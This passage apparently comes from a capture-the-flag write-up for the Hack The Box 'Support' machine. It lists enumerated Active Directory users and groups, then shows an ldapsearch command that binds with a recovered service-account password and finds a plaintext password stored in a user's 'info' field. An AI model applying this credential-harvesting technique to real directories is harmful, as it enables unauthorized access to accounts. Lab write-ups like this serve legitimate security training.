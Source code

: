 ```bash
name: Enterprise Read-only Domain Controllers
name: Cloneable Domain Controllers
name: Protected Users
name: Key Admins
name: Enterprise Key Admins
name: DnsAdmins
name: DnsUpdateProxy
name: Shared Support Accounts
name: ldap
name: support
name: smith.rosario
name: hernandez.stanley
name: wilson.shelby
name: anderson.damian
name: thomas.raphael
name: levine.leopoldo
name: raven.clifton
name: bardot.mary
name: cromwell.gerard
name: monroe.david
name: west.laura
name: langley.lucy
name: daughtler.mabel
name: stoll.rachelle
name: ford.victoria
name: Administrator
name: Guest
```


We can see that there is a great set of users (and also generic users). Checking the full users information, I noticed a rare value (_Ironside47pleasure40Watchful_) in the _info_ field for the actual users we have:

```bash
ldapsearch -x -H ldap://10.129.227.255 -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=support,CN=Users,DC=support,DC=htb"
# extended LDIF
#
# LDAPv3
# base <CN=support,CN=Users,DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```